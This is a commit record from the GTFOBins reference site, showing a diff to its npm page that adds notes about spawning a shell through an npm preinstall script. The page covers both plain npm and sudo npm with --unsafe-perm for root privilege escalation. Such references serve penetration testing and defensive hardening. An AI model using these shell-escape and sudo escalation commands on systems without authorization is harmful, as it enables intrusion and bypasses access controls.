

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/npm.md, in a window 1280 px wide. Shown: the top 769 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update yarn and npm shells
Mention an additional way to run scripts as suggested in #224.

```diff
--- a/_gtfobins/npm.md
+++ b/_gtfobins/npm.md
@@ -2,12 +2,14 @@
 functions:
   shell:
     - code: npm exec /bin/sh
-    - code: |
+    - description: Additionally, arbitrary script names can be used in place of `preinstall` and triggered by name with, e.g., `npm -C $TF run preinstall`.
+      code: |
         TF=$(mktemp -d)
         echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
         npm -C $TF i
   sudo:
-    - code: |
+    - description: Additionally, arbitrary script names can be used in place of `preinstall` and triggered by name with, e.g., `npm -C $TF run preinstall`.
+      code: |
         TF=$(mktemp -d)
         echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
         sudo npm -C $TF --unsafe-perm i
```
Also changed, not shown: _gtfobins/yarn.md (+2 -1 lines).
